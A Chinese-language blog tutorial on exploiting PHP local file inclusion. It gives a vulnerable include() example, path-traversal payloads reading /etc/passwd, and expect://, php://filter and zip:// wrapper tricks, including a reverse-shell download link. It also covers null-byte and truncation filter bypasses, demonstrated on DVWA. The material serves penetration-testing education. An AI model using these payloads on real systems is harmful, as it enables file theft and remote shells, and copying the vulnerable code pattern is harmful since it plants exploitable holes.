






本文的目的在于帮助网络安全爱好者们去识别和测试LFI漏洞，通过研究去探究LFI渗透测试技术以及LFI漏洞通常在哪里被发现。如果你有更好的奇淫技巧，欢迎分享。
本地文件包含漏洞是指只能包含本机文件的文件包含漏洞，当Web应用程序未合理的包含一个文件时，存在此漏洞。攻击者可以控制输入注入路径遍历字符或服务器上其他文件进行攻击。下面就让我们详细的分析一下漏洞原理和利用技巧.
首先我们来看一段存在文件包含漏洞的PHP代码：
<?php
$file = $_GET['file'];
if(isset($file)){
include("pages/$file");
}
else{
include("index.php");
}
?>
这里我们使用了include函数包含了一个用户输入的文件。
LFI漏洞很容易识别和利用，例如：
/lfi.php?file=index.html
我们可以通过操作文件位置来利用此漏洞，如：
/lfi.php?file=../../../../../../../../etc/passwd
以上是显示Linux/UNIX下的/etc/passwd文件。
以下是成功利用Web应用程序上的LFI漏洞的示例：
PHP封装了很多协议，通常我们可以利用它来绕过各种输入过滤。
PHP expect://允许执行系统命令，不过很可惜，需要安装扩展
http://pecl.php.net/package/expect
默认情况下不启用
http://127.0.0.1/lfi.php?file=expect://ls
php://input 是个可以访问请求的原始数据的只读流。
我们可以使用这个协议来执行命令：
php://filter 是一种元封装器，设计用于数据流打开时的筛选过滤应用。它可以打开本地文件然后以base64编码输出。有时候被过滤的时候，可以尝试使用这个方法来包含文件。
?page=php://filter/convert.base64-encode/resource=/etc/passwd
以dwva为例：
输出的字符是以base64编码输出的，所以我们需要解密：
我们也可以不使用base64编码输出：
?page=php://filter/resource=/etc/passwd
如图：
这是一个压缩流，利用这个让的前提是能上传一个我们自己能控制zip压缩包，攻击流程如下：
反弹shell下载地址：
http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz
Payload：
127.0.0.1/dvwa/vulnerabilities/fi/?page=zip://shell.zip%23shell.php
反弹成功：
通过在URL编码中增加“空字节”，比如“00%”，在某些情况下能绕过WEB应用程序中的过滤。通常，增加空字符后，后端的WEB应用程序对该输入有可能会放行或不处理，从而可以绕过WEB应用黑名单过滤器。
下面是一些特殊的LFI空字节注入的实例：
?page=/etc/passwd%00
?page=/etc/passwd%2500
截断是另一个绕过黑名单的技术，通过向有漏洞的文件包含机制中注入一个长的参数，WEB应用有可能会“砍掉它”(截断)输入的参数，从而有可能绕过输入过滤。
%00截断：
/etc/passwd%00
(需要 magic_quotes_gpc=off，PHP小于5.3.4有效)
%00截断目录遍历：
/var/www/%00
(需要 magic_quotes_gpc=off，unix文件系统，比如FreeBSD，OpenBSD，NetBSD，Solaris)
路径长度截断：
/etc/passwd/././././././.[…]/./././././.
(php版本小于5.2.8(?)可以成功，linux需要文件名长于4096，windows需要长于256)
点号截断：
/boot.ini/………[…]…………
(php版本小于5.2.8(?)可以成功，只适用windows，点号需要长于256)
LFI截断实例：
?page=/etc/passwd…………………………………………………………………………….
?page=../../../../../../../../../../../../../../../../../../../../../../../../etc/passwd
?page=/etc/passwd/../../../../../../../../../../../../../../../../../..
本篇文章主要针对了web应用常规漏洞的本地文件包含漏洞作了详细的介绍，希望大家能给点建议，欢迎大家关注我的新浪微博：孤独zusheng，给我留言或者评论。本技术站追求纯粹的技术分享，也欢迎大家联系我分享自己的技术。